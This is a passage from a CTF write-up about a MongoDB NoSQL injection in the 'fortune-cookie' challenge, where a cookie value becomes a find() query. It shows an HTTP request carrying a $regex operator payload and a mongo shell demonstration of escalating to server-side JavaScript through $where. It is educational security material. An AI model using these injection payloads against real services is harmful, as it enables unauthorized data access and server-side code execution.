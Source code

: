 Within `POST /posts`, the set cookies are normally used in the following order.

1. It is assigned to the variable `author` (in the line marked with ②)
2. Converted to an object (in the line marked with ③)
3. Used as a query selector for `find()` (in the line marked with ④)

For example, suppose the cookie value is `8ayac`.
This value is converted to an object called `{"author": "8ayac"}` in ③, and finally a query is issued so that the document whose `author` is `8ayac` is retrieved.

There is a vulnerability here.
If the object is set in the cookie, you can freely manipulate the conditions passed to the find query.

For example, suppose the cookie value is `{content:{'$regex':'.*'}}`.
This object will be used in ④ directly after being assigned to the variable `author` in ②.
As a result, a query will be issued that retrieves documents whose `content` matches the regular expression `.*`.

If you want to set a value like that into a cookie in practice, send a request like bellow:
With an appropriately customized payload, you can set any object to a cookie value.

```http
POST /login HTTP/1.1
Host: fortune-cookie.ctf.defenit.kr
Content-Length: 14
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
Origin: http://fortune-cookie.ctf.defenit.kr
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://fortune-cookie.ctf.defenit.kr/login
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7,zh;q=0.6
Connection: close

username[content][$regex]=.*
```

### Upgrade to SSJI

MongoDB has some features that perform server-side execution of JavaScript code.
The `$where` operator is one of them.
For more information, please see <https://docs.mongodb.com/manual/core/server-side-javascript/>.

> $where operator that evaluates a JavaScript expression or a function in order to query for documents.

Below you can see that the `eval` function in the `$where` condition has been actually performed.

```shell-session
root@5895c47e40e5:/# mongo -u redacted -p redacted
MongoDB shell version v4.2.7
(snip)
> use fortuneCookie
switched to db fortuneCookie
> db.posts.find({ $where: "eval(1+1) == 1" })
> db.posts.find({ $where: "eval(1+1) == 2" })
{ "_id" : ObjectId("5edc178c9ee53600459bd3b0"), "author" : "8ayac", "content" : "hoge" }
{ "_id" : ObjectId("5edc373b9ee53600459bd3b1"), "author" : "8ayac", "content" : "fuga" }
```

